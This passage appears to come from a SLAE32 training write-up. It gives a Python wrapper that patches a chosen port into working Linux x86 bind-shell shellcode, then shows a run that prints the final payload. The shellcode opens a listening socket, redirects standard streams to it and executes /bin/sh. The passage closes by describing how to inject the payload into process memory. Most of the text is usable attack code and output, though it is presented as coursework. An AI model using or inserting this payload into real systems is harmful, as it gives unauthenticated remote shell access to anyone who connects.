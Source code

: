 shellcode = ("\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x66\\xb8\\x67\\x01"
	"\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7\\x31\\xc0\\x66\\xb8\\x69"
	"\\x01\\x89\\xfb\\x31\\xc9\\x51\\x51\\x66\\x68[p2][p1]\\x66\\x6a"
	"\\x02\\x89\\xe1\\x31\\xd2\\xb2\\x10\\xcd\\x80\\x31\\xc0\\x66\\xb8"
	"\\x6b\\x01\\x89\\xfb\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c"
	"\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2\\x31\\xf6\\xcd\\x80\\x89\\xc7"
	"\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xfb\\xfe\\xc9\\xcd"
	"\\x80\\x75\\xf4\\x31\\xc0\\x50\\x68\\x6e\\x2f\\x73\\x68\\x68\\x2f"
	"\\x2f\\x62\\x69\\x89\\xe3\\x50\\x89\\xe1\\x50\\x89\\xe2\\xb0\\x0b"
	"\\xcd\\x80"
)

if len(sys.argv) != 2:
	print 'Usage: ' + sys.argv[0] + ' <port>'
	sys.exit()

port = sys.argv[1]
print "Chosen port: %s" % port

int_port = int(port)
if int_port > 65535:
	print "Port choice is greater than max value (65535)"
	sys.exit()

htons_port_val = socket.htons(int_port)
hex_port_value = hex(htons_port_val)

cleaned_hex_port = hex_port_value.replace("0x", "")
first_port_val = "\\x" + cleaned_hex_port[:2]
second_port_val = "\\x" + cleaned_hex_port[2:]

print "1st port: %s" % first_port_val
print "2nd port: %s" % second_port_val
print ""

print "Ammending shellcode..."

shellcode = shellcode.replace("[p2]", second_port_val)
shellcode = shellcode.replace("[p1]", first_port_val)

print "Final Shellcode:"
print shellcode
```

As we can see in the above shellcode value, there are two placeholder values [p2] and [p1], these are the two hex values that are replaced with the target port, specified at runtime. Once edited, the final shellcode is output to the screen, as seen in the following usage example:

```
root@kali:~/Documents/slae32/exercise_1# python wrapper.py 9003
Chosen port: 9003
1st port: \x2b
2nd port: \x23

Ammending shellcode...
Final Shellcode:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x31\xc9\x51\x51\x66\x68\x23\x2b\x66\x6a\x02\x89\xe1\x31\xd2\xb2\x10\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xfb\xfe\xc9\xcd\x80\x75\xf4\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x89\xe1\x50\x89\xe2\xb0\x0b\xcd\x80
```

Our final step is to utilise this hex output within an executable that injects the shellcode directly into the process memory and executes it, binding out shell. This can be completed in various languages, for example C# is an ideal candidate for a Windows shell. As I am working within a Unix environment I wrote my executable in C.

```